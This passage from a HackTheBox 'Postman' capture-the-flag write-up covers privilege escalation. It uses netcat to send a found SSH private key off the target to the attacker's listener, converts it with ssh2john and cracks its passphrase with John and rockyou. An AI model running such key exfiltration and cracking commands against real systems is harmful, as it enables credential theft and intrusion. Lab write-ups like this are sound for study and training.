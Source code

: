 # Privilege Escalation

## Matt - Enumeration (Found SSH Private Key)

1. Found `matt`'s SSH private key w/ `linpeas.sh`
	![](Pasted%20image%2020220921231303.png)
2. Transfer `id_rsa` to `kali` 

	```
	┌──(root💀kali)-[~/htb/postman/10.10.10.160/exploit]
	└─# nc -nvlp 4444 > matt_id_rsa
	Ncat: Version 7.92 ( https://nmap.org/ncat )
	Ncat: Listening on :::4444
	Ncat: Listening on 0.0.0.0:4444
	Ncat: Connection from 10.10.10.160.
	Ncat: Connection from 10.10.10.160:53146.
	
	redis@Postman:/tmp$ nc 10.10.14.14 4444 < /opt/id_rsa.bak
	```

## Matt - Crack SSH Private Key & SSH

1. Convert it to `john` format w/ `ssh2john.py`

	```
	┌──(root💀kali)-[~/htb/postman/10.10.10.160/exploit]
	└─# python ssh2john.py matt_id_rsa > john_matt_id_rsa
	```

2. Crack hash

	```
	┌──(root💀kali)-[~/htb/postman/10.10.10.160/exploit]
	└─# john john_matt_id_rsa --wordlist=/usr/share/wordlists/rockyou.txt
	Using default input encoding: UTF-8
	Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
	Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
	Cost 2 (iteration count) is 2 for all loaded hashes
	Will run 2 OpenMP threads
	Press 'q' or Ctrl-C to abort, almost any other key for status
	computer2008     (matt_id_rsa)     
	1g 0:00:00:00 DONE (2022-09-21 23:16) 4.000g/s 987264p/s 987264c/s 987264C/s comunista..comett
	Use the "--show" option to display all of the cracked passwords reliably
	Session completed. 
	```

3. SSH - Failed

	```
	┌──(root💀kali)-[~/htb/postman/10.10.10.160/exploit]
	└─# ssh Matt@postman.htb -i matt_id_rsa 
	Enter passphrase for key 'matt_id_rsa': 
	Connection closed by 10.10.10.160 port 22
	```
